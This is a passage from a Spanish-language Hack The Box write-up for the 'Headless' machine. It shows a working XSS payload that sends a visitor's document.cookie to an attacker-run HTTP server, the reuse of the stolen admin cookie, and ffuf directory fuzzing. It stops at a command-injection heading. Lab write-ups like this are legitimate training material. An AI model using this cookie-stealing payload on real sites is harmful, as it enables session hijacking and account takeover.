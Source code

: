 ```html
<script>img = new Image(); img.src = "http://TUip:TUpuerto/hola?"+document.cookie;</script>
```

En él indicamos: <span style="color: grey">"Créame por favor mediante **JS** una etiqueta tipo imagen, la cual está alojada en este servidor (TUip), este puerto (TUpuerto) y se llama así (hola), ah y también concaténame el valor de la cookie del usuario actual que intenta cargar la imagen."</span>

Entonces, levantemos el servidor y formemos el payload:

```bash
➧ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```html
<script>img = new Image(); img.src = "http://10.10.14.79:8000/hola?"+document.cookie;</script>
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/headless/htb594-burp-req-trying-ssti-message-report-sent-to-admins-with-browser-info-xss-stealing-cookie.png" style="width: 100%;"/>

Al enviarla, notamos una petición generada por el mismo **Burp Suite**, esperamos un rato, otro rato, otro rato yyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/headless/htb594-bash-py-server-xss-stealing-cookie.png" style="width: 100%;"/>

¡TENEMOS UNA PETICIÓN DESDE EL SISTEMA VICTIMAAAAA yyyyyy UNA COOKIE DISTINTA!!

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/headless/htb594-bash-base64-decode-xss-stealing-cookie.png" style="width: 50%;"/>

Epaleeee! Sí, señores y señoras, una cookie administrativa (:

...

Para hacer uso de ella en nuestro navegador podemos apoyarnos de la extensión **Cookie-Editor**, usar el inspector o la forma que prefieras :P

Solo que al asignárnosla y recargar la web, no notamos cambio en el contenido ni del `/` ni de `/support`. Revisemos que directorios y/o archivos están fuera de vista, pero hosteados por el back-end (fuzzing):

```bash
ffuf -c -w /opt/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://10.10.11.8:5000/FUZZ
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/headless/htb594-bash-ffuf-routes-page80.png" style="width: 100%;"/>

Pos sí, no teníamos aún a `/dashboard` (que devuelve un error, pensemos que es debido a que usamos **ffuf** sin la cookie, o sea, no como "admins").

Vamos a ese recurso, asignamos cookie robada, actualizamos la web y obtenemos un **200 Ok**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/headless/htb594-page80-dashboard.png" style="width: 70%;"/>

Liiistones, accedemos como administradores a un apartado para generar reportes con respecto a cuál es el estado del servidor.

## Generando reportes maliciosos [📌](#explotacion-dashboard-command-injection) {#explotacion-dashboard-command-injection}

